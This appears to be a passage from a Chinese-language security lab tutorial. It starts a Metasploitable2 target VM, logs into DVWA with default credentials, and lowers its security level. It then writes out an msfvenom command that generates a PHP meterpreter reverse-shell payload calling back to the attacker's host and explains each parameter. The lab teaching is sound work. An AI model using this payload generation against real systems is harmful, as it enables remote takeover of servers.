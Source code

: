 ### 4.2 启动环境

本攻击与上一个实验类似，但是此时我们使用的是 metasploit 来完成，再此之前当然还是我们的实验环境 DVWA 的启动了。

在实验桌面中，双击 Xfce 终端，打开终端：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2290timestamp1479374588595.png/wm)

使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：

![start-metasploit.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139532596.png/wm)

稍等片刻，待得虚拟机完全启动之后我们打开桌面上的 Firefox：

![open-firefox.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139552463.png/wm)

访问我们的靶机系统所使用的 IP 地址`192.169.122.102`：

![view-metasploit-url.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139568548.png/wm)

正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：

![dvwa-index.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139587112.png/wm)

为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：

![dvwa-config-security.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139662479.png/wm)

然后调整安全的 level 到 low：

![dvwa-config-security-1.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139678741.png/wm)

当看到页面的下方 Level 的显示变化后，说明修改成功了：

![dvwa-config-security-proof.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139693059.png/wm)

### 4.3 攻击准备

启动环境之后我们便需要生成我们的攻击脚本了，在上一步中我们是提供了一个 php 的反弹 shell 脚本给大家，但是这样的脚本在不了解 php 的情况下，或者找不到类似的脚本的情况下就没办法了。

在 metasploit 为大家提供了一个 msfvenom 的工具，该工具就是利用现有的某块生成木马程序，在 2015 年 8 月之后便用该工具来替代 msfencoder 和 msfpayload。

有了它我们便可不用去熟悉 php、自己手写木马脚本了。

在 Kali 中我们使用该命令来生成木马程序：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

在使用 msfvenom 的时候，必须使用 `-p` 参数来生成我们的攻击脚本，该参数的全程也就是 payload。后面紧接着就是使用的模块 reverser_tcp，该脚本属于 php 的攻击脚本，所以在 php/meterpreter 的路径中。`LHOST` 的参数设置的是 kali 本地 IP 地址，因为我们是使用的本地 msfconsole 来建立连接，当然若是我们的 MSF 在其他主机上我们同样可以填写其他的 IP 地址。`LPORT` 是本地主机中一个未被占用的空闲端口。`R >reverse_shell.php` 是将生成好的文本内容重定向输出到 reverse_shell.php 中，该文件若是不存在会自动生成。
